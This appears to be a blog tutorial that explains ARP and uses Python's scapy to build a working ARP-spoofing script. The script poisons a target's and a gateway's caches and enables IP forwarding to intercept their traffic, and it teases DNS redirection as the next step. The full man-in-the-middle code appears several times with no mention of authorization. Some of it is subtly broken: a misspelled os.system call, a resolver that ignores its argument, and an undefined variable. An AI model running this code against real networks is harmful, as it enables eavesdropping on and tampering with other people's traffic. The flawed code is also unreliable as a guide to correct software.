


ARP (Address Resolution Protocol) is a protocol used on networks to establish a device’s physical hardware address (MAC address), and their network address (IP address). ARP spoofing is a method of positioning yourself between a target and the gateway (eg. router) on local network traffic. From there you can do naughty things like snooping on traffic, modify packets as they pass by, or outright performing a denial of service attack.

## Tech used

- Python 3.7.4
- scapy 2.4.2
- Linux

## What is ARP?

As mentioned before, ARP is a protocol to resolve IP addresses to MAC addresses. When connected to your home network, you could have an IP address similar to 192.168.0.5, and your gateway (router) could be 192.168.0.1. The MAC addresses for these devices would look similar to 22:a5:d0:fe:46:82.

Using Linux, you can examine the network and physical addresses of a computer using `ifconfig`

```bash
~/src $ ifconfig
enp2s0f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.101  netmask 255.255.255.0  broadcast 192.168.1.255
        ether 23:0a:55:b5:30:af  txqueuelen 1000  (Ethernet)
```

From this, we can see that our ip address on the network is `192.168.1.101` and our MAC address is `23:0a:55:b5:30:af`.

You can examine you computer’s ARP cache with the `arp` command. Add `-a` to see all info:

```bash
~/src $ arp -a
? (192.168.1.111) at 10:a5:d0:fe:06:87 [ether] on enp2s0f1
_gateway (192.168.1.1) at 18:d6:c7:a6:f5:f8 [ether] on enp2s0f1
? (192.168.1.110) at 1c:1b:0d:62:93:22 [ether] on enp2s0f1
```

### Packet Structure

A full breakdown of packet structure for ARP packets is available from [wikipedia](https://en.wikipedia.org/wiki/Address_Resolution_Protocol). For our purposes, we need to know only a few parts:

- Operation: 1 for a request, 2 for a reply
- Source IP, Physical address
- Target IP, Physical address

One thing you might notice when examining ARP packets, is that there is no form of authentication. Anyone on a network can claim to be any device on that network. We can leverage that to our advantage to poison the ARP cache of a target on our network!

## Tools

### Wireshark

[Wireshark](https://www.wireshark.org/) is a powerful tool for examining network traffic. For now, we’ll just use it to look for ARP packets. By using the `arp` filter in Wireshark, we can monitor the ARP activity on the network:



### scapy

[scapy](https://scapy.net) is a python package for building and manipulating packets. It provides a fairly nice abstraction over raw packet. Rather than having to memorize a raw packet raw byte structure, you can simply state `foo.ip_src =` ` '``123.0.0.1``' `. The full docs of scapy are available at https://scapy.net.
[](https://scapy.net)

## Our first scapy packet

scapy has a bit of an esoteric syntax:

```python
Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.1")
```

You craft packets by assembling the layers of the packet together. The `/` operator is utilized by scapy as the composition argument. With this mechanism, arbitrary packets can be assembled together:

```python
# UDP packet, wrapped in an TCP packet, wrapped in a UDP packet, wrapped in two IP packets, and finally an Ether packet
>>> Ether()/IP()/IP()/UDP()/TCP()/UDP()
<Ether  type=0x800 |<IP  frag=0 proto=ipencap |<IP  frag=0 proto=udp |<UDP  |<TCP  |<UDP  |>>>>>>
```

The power of scapy should hopefully be quite evident at this point.

```python
>>> from scapy.all import *
>>> arp_packet = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="10.128.128.128")
>>> send(arp_packet)
.
Sent 1 packets.
```

Of course, we can now look at Wireshark to verify that the packet was sent, and a response was received. We could also leverage scapy’s `srp` or send and receive packet function to capture the reply from our ARP query:

```python
>>> ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="10.128.128.128"),timeout=2)
Begin emission:
Finished sending 1 packets.
>>> ans
<Results: TCP:0 UDP:0 ICMP:0 Other:1>

# Each answered packet is paired with the original sent packet
>>> sent, recv = ans[0]

# Examining the whole packet
>>> recv
<Ether  dst=04:ea:56:80:10:1a src=0c:8d:db:71:c0:87 type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=0c:8d:db:71:c0:87 psrc=10.128.128.128 hwdst=04:ea:56:80:10:1a pdst=10.102.73.220 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>

# Examining an individual layer of the packet
>>> recv['ARP']
<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=0c:8d:db:71:c0:87 psrc=10.128.128.128 hwdst=04:ea:56:80:10:1a pdst=10.102.73.220 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>

# Getting a specific field from a packet
>>> recv.hwsrc
'0c:8d:db:71:c0:87'
```

The fields of interest are:

- Ether layer
  - `dst` - Destination MAC address of the packet
  - `src` - Source MAC address of the packet
- ARP layer
  - `op` - ARP operation. As mentioned above, 1 for a request, 2 for a reply
  - `psrc` - Packet source IP address
  - `hwsrc` - MAC address of source. Normally is the same as `src`
  - `pdst` - Packet destination IP address
  - `hwdst` - MAC address of destination. Normally the same as `dst`

## So, how does ARP spoofing work?

Basic ARP spoofing works by claiming to be the MAC address of your victim louder and more frequently than the victim. To man-in-the-middle connection, we need to inform the gateway (or most likely your router) that we are the target machine, and we need to inform the target machine that we are the the gateway.

**Constructing our basic ARP spoof packets**

```python
from scapy.all import Ether, ARP

gateway_mac = '0c:8d:db:71:c0:87'
gateway_ip = '10.128.128.128'
target_mac = '0c:8d:db:71:c0:87' ### TODO: FIXME
target_ip = '10.105.190.249'

target_packet = Ether(dst=target_mac) / ARP(
    op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
)
router_packet = Ether(dst=gateway_mac) / ARP(
    op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
)
```

Now all we need to do is beacon out these packets nonstop:

```python
import time

while True:
    sendp([target_packet, router_packet])
    time.sleep(self.sleep_time_sec)
```

Now you should see something like this when run:

```bash
~/s/b/a/src  sudo python3 arp_intro.py
..
Sent 2 packets.
..
Sent 2 packets.
..
Sent 2 packets.
..
Sent 2 packets.
```

We can suppress the noisy output of scapy by setting `verbose=0` on the `sendp` function. Check out Wireshark, you should see your fancy ARP script beaconing out packets:



The full script is as follows:

```python
import time
from typing import List
from threading import Thread
from scapy.all import Ether, ARP, sendp


gateway_mac = "0c:8d:db:71:c0:87"
gateway_ip = "10.128.128.128"
target_mac = "0c:8d:db:71:c0:87"
target_ip = "10.105.190.249"
# Build the packets
target_packet = Ether(dst=target_mac) / ARP(
    op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
)
router_packet = Ether(dst=gateway_mac) / ARP(
    op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
)
# Loop forever and beacon packets
while True:
    sendp([target_packet, router_packet], verbose=0)
    # Sleep for 1 second between beacons
    # not really needed, but makes it less spammy
    time.sleep(1)
```

## Automatically resolving MAC addresses

Now that we have the basics in place, it’s kind of annoying to manually set MAC addresses. Considering we already have the ability to issue ARP requests, we can leverage that to resolve the MAC address for the IP addresses we want!

```python
def get_mac_from_ip(ip_address: str):
    # dst="ff:ff:ff:ff:ff:ff" broadcasts the request to the whole network
    ans = srp1(
        Ether(dst="ff:ff:ff:ff:ff:ff")
        / ARP(pdst=ip_address, hwdst="ff:ff:ff:ff:ff:ff"),
        timeout=2,
        verbose=0,
    )
    if ans:
        return ans.hwsrc
    else:
        return None
```

## Forwarding all traffic

Now that we’ve positioned ourselves in between our target and the gateway, we should probably enable IP forwarding in linux, so we don’t take our target off the network!

You can check if IP forwarding is enabled via the following command:

```bash
# sysctl net.ipv4.ip_forward
net.ipv4.ip_forward = 0
```

As with all things computers, 0 is disabled.

To turn IP forwarding on, issue the following command:

```bash
# sysctl -w net.ipv4.ip_forward=1
net.ipv4.ip_forward = 1
```

This won’t persist after a reboot, but it’s probably a good idea to disable it after you’re done anyway.

```bash
# sysctl -w net.ipv4.ip_forward=0
net.ipv4.ip_forward = 0
```

We can add this to our spoofer script by utilizing the `os` module:

```python
import os

# ...

os.system("sysctl -w net.ipv4.ip_forward=1")
# Loop forever and beacon packets
# Note that we're wrapping the loop in a try/except KeyboardInterrupt block
# So that we can hit Ctrl-C to stop the arp spoof and allow us to clean up
try:
    while True:
        sendp([target_packet, router_packet], verbose=0)
        # Sleep for 1 second between beacons
        time.sleep(1)
except KeyboardInterrupt:
        sys.exit(1)
os.sytem("sysctl -w net.ipv4.ip_forward=0")
```

## Verifying that it works

We can verify that it works through Wireshark. Initiate the script. From the target computer, initiate a DNS query (`dig` in Linux, `nslookup` in Windows). Now, look for that DNS query in Wireshark. If there is too much spam, use the `dns` filter in Wireshark:


## Where to go from here?

Now that we’ve positioned ourselves in between our target and and the gateway, we are now able to intercept all traffic. We could just snoop, intercept all DNS requests and change the response on the fly to our own domain, flip all unecrypted images upside down.

[In the next blog post, we’ll modify incoming DNS requests to redirect targets to our own domain.](/arp-spoofer-1)

## All the code!

```python
import time
from scapy.all import Ether, ARP, sendp, srp1
import os
import sys

gateway_ip = "192.168.1.1"
target_ip = "192.168.1.110"

def get_mac_from_ip(ip_address: str):
    # dst="ff:ff:ff:ff:ff:ff" broadcasts the request to the whole network
    ans = srp1(
        Ether(dst="ff:ff:ff:ff:ff:ff")
        / ARP(pdst=ip_address, hwdst="ff:ff:ff:ff:ff:ff"),
        timeout=2,
        verbose=0,
    )
    if ans:
        return ans.hwsrc
    else:
        return None

def resolve_ip(name: str, ip_address: str):
    print(f"Resolving MAC address for {name} {target_ip}")
    # Resolve the target's MAC address
    mac = get_mac_from_ip(target_ip)
    if mac == None:
        print(f"Unable to resolve IP address. Exiting!")
        sys.exit(0)
    print(f"Resolved to {mac}")
    return mac

# Resolve the MAC addresses
target_mac = resolve_ip("target", target_ip)
gateway_mac = resolve_ip("gateway", gateway_ip)
# Build the packets
target_packet = Ether(dst=target_mac) / ARP(
    op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
)
router_packet = Ether(dst=gateway_mac) / ARP(
    op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
)

os.system("sysctl -w net.ipv4.ip_forward=1")
# Loop forever and beacon packets
try:
    while True:
        sendp([target_packet, router_packet], verbose=0)
        # Sleep for 1 second between beacons
        time.sleep(1)
except KeyboardInterrupt:
    sys.exit(1)
os.sytem("sysctl -w net.ipv4.ip_forward=0")
```
